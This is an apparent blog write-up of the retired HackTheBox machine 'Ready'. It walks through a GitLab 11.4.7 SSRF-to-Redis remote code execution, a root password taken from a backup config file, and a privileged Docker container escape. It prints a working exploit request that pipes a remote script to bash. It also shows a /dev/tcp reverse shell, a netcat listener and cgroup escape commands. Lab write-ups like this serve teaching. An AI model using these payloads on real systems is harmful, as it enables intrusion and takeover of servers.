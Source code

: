 Title:HTB: Ready
Date: MM-14-2020 09:50
category:security
tags:security, boot2root, HTB, gitlab, docker
meta:security, boot2root, HTB, gitlab, docker

<img class="align-left" src="/media/2021.xx/ready_card.png" alt="Ready card" width="262">

This is a writeup about a retired HacktheBox machine:
[Ready](https://www.hackthebox.eu/home/machines/profile/304) published on
December 12 2020 by
[bertolis](https://www.hackthebox.eu/home/users/profile/27897)
This box is classified as a medium machine. This box implies an outdated gitlab
server, a clear text password in a backup file and a docker container.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only port 22 (SSH) and port 5080 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Sun Dec 13 03:40:16 2020 as: nmap -p- -sSV -oN nmap 10.129.29.192
    Nmap scan report for 10.129.29.192
    Host is up (0.014s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    5080/tcp open  http    nginx
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Dec 13 03:40:48 2020 -- 1 IP address (1 host up) scanned in 31.28 seconds

## Web

The HTTP service is once again a gitlab (my latest rooted box is laboratory TODO
link if already published) server. This time the version is 11.4.7. A Google
research "gitlab 11.4.7 exploit" lead us to a
[blog article about an RCE on gitlab during a CTF](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

Following the blog exploitation we end up with a request looking like the
following and can validate the RCE using a python server on our kalibox.

    :::text
    POST /projects HTTP/1.1
    Host: 10.129.29.192:5080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.129.29.192:5080/projects/new
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 1073
    Origin: http://10.129.29.192:5080
    Connection: close
    Cookie: _gitlab_session=140270c33fe803d8ab11d0f9a85c45cf; sidebar_collapsed=false
    Upgrade-Insecure-Requests: 1

    utf8=%E2%9C%93&authenticity_token=%2BEHyUYosjkfZlzfMEpR8QFZ%2BWiJMAQQ%2BTiB3Wt%2FNK0fNBNX9EhAKd6VM6okCvVQ0fZ6HxSBzQdo%2Fx4Lfe4nDCw%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7C%63%75%72%6c%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%31%38%3a%38%30%30%30%2f%72%65%76%32%2e%73%68%20%7c%20%62%61%73%68%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=&project%5Bnamespace_id%5D=6&project%5Bpath%5D=ttreqqq139&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0

We can even just manually import a git project using the following "git url":
`git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Cxxxxxxxxx%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git` and replacing the payload `xxxxxxxxxxx` with our own URL encoded.

We send the following payload `curl http://10.10.14.18:8000/rev2.sh | bash`.

The content of rev2.sh is the following:

    :::bash
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.18/4443 0>&1

We run a netcat listener to catch our reverse shell. We end up with a shell as
`git` that can read the user flag.

    :::text
    kali@kali:~$ nc -l -p 4443
    bash: cannot set terminal process group (485): Inappropriate ioctl for device
    bash: no job control in this shell
    git@gitlab:~/gitlab-rails/working$ id
    id
    uid=998(git) gid=998(git) groups=998(git)
    git@gitlab:/$ find / -name 'user.txt' 2>/dev/null
    find / -name 'user.txt' 2>/dev/null
    /home/dude/user.txt
    git@gitlab:/$ cat /home/dude/user.txt
    cat /home/dude/user.txt
    e1e30b052b6ec0670698805d745e7682

# Root

## Enumeration

We enumerate a few file and find the `/opt/backup/` directory which contain a few
files. The file `gitlab.rb` contain a smtp password.

    :::text
    git@gitlab:/opt/backup$ grep -i pass gitlab.rb
    grep -i pass gitlab.rb
    #### Email account password
    # gitlab_rails['incoming_email_password'] = "[REDACTED]"
    #     password: '_the_password_of_the_bind_user'
    #     password: '_the_password_of_the_bind_user'
    #   '/users/password',
    #### Change the initial default admin password and shared runner registration tokens.
    # gitlab_rails['initial_root_password'] = "password"
    # gitlab_rails['db_password'] = nil
    # gitlab_rails['redis_password'] = nil
        gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
    # gitlab_shell['http_settings'] = { user: 'username', password: 'password', ca_file: '/etc/ssl/cert.pem', ca_path: '/etc/pki/tls/certs', self_signed_cert: false}
    ##! `SQL_USER_PASSWORD_HASH` can be generated using the command `gitlab-ctl pg-password-md5 gitlab`
    # postgresql['sql_user_password'] = 'SQL_USER_PASSWORD_HASH'
    # postgresql['sql_replication_password'] = "md5 hash of postgresql password" # You can generate with `gitlab-ctl pg-password-md5 <dbuser>`
    # redis['password'] = 'redis-password-goes-here'
    ####! **Master password should have the same value defined in
    ####!   redis['password'] to enable the instance to transition to/from
    # redis['master_password'] = 'redis-password-goes-here'
    # geo_secondary['db_password'] = nil
    # geo_postgresql['pgbouncer_user_password'] = nil
    #     password: PASSWORD
    ###! generate this with `echo -n '$password + $username' | md5sum`
    # pgbouncer['auth_query'] = 'SELECT username, password FROM public.pg_shadow_lookup($1)'
    #     password: MD5_PASSWORD_HASH
    # postgresql['pgbouncer_user_password'] = nil

We need an interactive shell to be able to input a password, we use python for
that purpose and end up with a shell as root.

    :::text
    git@gitlab:~/gitlab-rails/working$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    <orking$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    git@gitlab:~/gitlab-rails/working$ su
    su
    Password: wW59U!ZKMbG9+*#h

    root@gitlab:/var/opt/gitlab/gitlab-rails/working# id
    id
    uid=0(root) gid=0(root) groups=0(root)

Nonetheless we cannot find any `root.txt` file. As you probably already guess or
notice we are in a docker container.

## Docker escape

We run [deepce](https://github.com/stealthcopter/deepce): Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
We use a python server on our kalibox to transfer the script using `wget --recursive --no-parent http://10.10.14.18:8000`.
And we run it.

    :::text
    <SNIP>
    [+] Privileged Mode ......... Yes
    The container appears to be running in privilege mode, we should be able to access the
    raw disks and mount the hosts root partition in order to gain code execution.
    See https://stealthcopter.github.io/deepce/guides/docker-privileged.md
    <SNIP>

An other quick Google research allow us to find a [medium article](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1)
to learn more about docker's privilege mode with a few command line to execute a
command on the system. We just replace the `echo "ps aux > $host_path/output" >> /cmd` line
with `echo "cat /root/root.txt > $host_path/output" >> /cmd` and grab the root
hash.

    :::text
    <SNIP>
    root@gitlab:/tmp/.plop# echo "cat /root/root.txt > $host_path/output" >> /cmd
    echo "cat /root/root.txt > $host_path/output" >> /cmd
    root@gitlab:/tmp/.plop# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    root@gitlab:/tmp/.plop# cat /output
    cat /output
    b7f98681505cd39066f67147b103c2b3

# Wrapping up

The box is not that hard (less than laboratory [TODO LINK]) and quit interesting
as the exploitation of the gitlab's SSRF and its upgrade to an RCE was really
interesting and detailed on the blog article.

